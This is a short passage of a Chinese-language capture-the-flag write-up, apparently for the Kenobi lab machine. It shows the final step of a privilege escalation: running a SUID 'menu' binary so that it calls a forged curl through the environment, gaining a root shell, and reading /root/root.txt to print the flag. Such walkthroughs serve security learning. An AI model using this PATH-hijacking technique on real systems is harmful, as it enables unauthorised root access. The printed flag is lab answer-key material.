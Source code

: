 最后，我们在当前环境变量下去调用menu，让它去调用伪造的curl：

```shell
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```
